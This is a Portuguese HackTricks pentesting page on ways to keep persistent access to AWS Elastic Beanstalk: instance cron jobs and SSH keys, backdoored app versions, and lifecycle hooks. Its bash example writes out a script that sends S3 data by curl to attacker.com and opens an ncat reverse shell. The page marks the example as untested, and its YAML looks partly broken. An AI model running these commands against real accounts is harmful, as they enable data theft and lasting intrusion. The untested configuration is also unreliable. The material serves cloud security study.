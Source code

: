 # AWS - Elastic Beanstalk Persistência

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Elastic Beanstalk

Para mais informações, consulte:

{% content-ref url="../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistência na Instância

Para manter a persistência dentro da conta AWS, algum **mecanismo de persistência pode ser introduzido dentro da instância** (trabalho cron, chave ssh...) para que o atacante possa acessá-lo e roubar as **credenciais do IAM role do serviço de metadados**.

### Backdoor na Versão

Um atacante pode inserir um backdoor no código dentro do repositório S3 para que ele sempre execute seu backdoor e o código esperado.

### Nova versão com backdoor

Em vez de alterar o código na versão atual, o atacante pode implantar uma nova versão do aplicativo com backdoor.

### Abusando dos Hooks de Ciclo de Vida de Recursos Personalizados

{% hint style="info" %}
TODO: Teste
{% endhint %}

O Elastic Beanstalk fornece hooks de ciclo de vida que permitem executar scripts personalizados durante a criação e a terminação da instância. Um atacante poderia **configurar um hook de ciclo de vida para executar periodicamente um script que exfiltra dados ou mantém o acesso à conta AWS**.

```bash
bashCopy code# O atacante cria um script que exfiltra dados e mantém o acesso
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# O atacante faz upload do script para um bucket S3
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# O atacante modifica a configuração do ambiente Elastic Beanstalk para incluir o hook de ciclo de vida personalizado
echo 'Resources:
  AWSEBAutoScalingGroup:
    Metadata:
      AWS::ElasticBeanstalk::Ext:
        TriggerConfiguration:
          triggers:
            - name: stealthy-lifecycle-hook
              events:
                - "autoscaling:EC2_INSTANCE_LAUNCH"
                - "autoscaling:EC2_INSTANCE_TERMINATE"
              target:
                ref: "AWS::ElasticBeanstalk::Environment"
              arn:
                Fn::GetAtt:
                  - "AWS::ElasticBeanstalk::Environment"
                  - "Arn"
  stealthyLifecycleHook:
    Type: AWS::AutoScaling::LifecycleHook
    Properties:
      AutoScalingGroupName:
        Ref: AWSEBAutoScalingGroup
      LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
      NotificationTargetARN:
        Ref: stealthy-lifecycle-hook
      RoleARN:
        Fn::GetAtt:
          - AWSEBAutoScalingGroup
          - Arn' > stealthy_lifecycle_hook.yaml

# O atacante aplica a nova configuração do ambiente
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>